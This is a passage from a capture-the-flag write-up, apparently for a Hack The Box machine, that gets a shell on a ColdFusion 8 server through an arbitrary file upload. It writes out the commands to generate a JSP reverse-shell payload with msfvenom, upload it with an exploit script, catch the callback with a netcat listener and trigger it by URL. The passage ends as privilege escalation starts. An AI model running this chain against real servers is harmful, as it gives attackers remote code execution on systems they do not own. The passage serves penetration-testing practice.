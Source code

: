 The exploit 45979 does not pan out. The directories listed in the exploit do not match the specific version of ColdFusion that is being used here. Arrexel did write an [exploit](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload) that would work and was written specifically for this box. So it is technically cheating, but I have already spent enough time on this box, so I’m going to use it!

**Note**: The arbitrary file exploit does not require you to authenticate, so technically you don’t need to exploit the directory traversal vulnerability beforehand, unless you plan on using the GUI.

It is worth noting that in the Administrator GUI, there is a Debugging & Logging &gt; Scheduled Tasks category that would allow us to upload files.

![](https://miro.medium.com/max/971/1*HqvdBk09BVtq1448nzEWFA.png)

Instead, I’m going to use arrexal’s exploit.

First, generate a JSP reverse shell that will be run and served by the server.

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=4444 > shell.jsp
```

Next, run arrexal’s exploit.

```text
python arb-file-exploit.py 10.10.10.11 8500 shell.jsp
```

The exploit tells us where the exploit file was saved.

![](https://miro.medium.com/max/818/1*wcq5Sd42-paHcYnVDMBb9A.png)

Next, start up a listener on the attack machine.

```text
nc -nlvp 4444
```

Then visit the location of the exploit in the browser to run the shell.jsp file.

```text
http://10.10.10.11:8500/userfiles/file/exploit.jsp
```

We have a shell!

![](https://miro.medium.com/max/639/1*yLOirVjgdCbJH-Hkg4kA1A.png)

Grab the user flag.

![](https://miro.medium.com/max/514/1*LCJvXZB-NSDjz-g_AxANog.png)

This is a non-privileged shell, so we’ll have to find a way to escalate privileges.

## Privilege Escalation <a id="48ca"></a>

Let’s find out more about the system.

![](https://miro.medium.com/max/844/1*26r7_9b7OUCDk_v9_uXlxA.png)
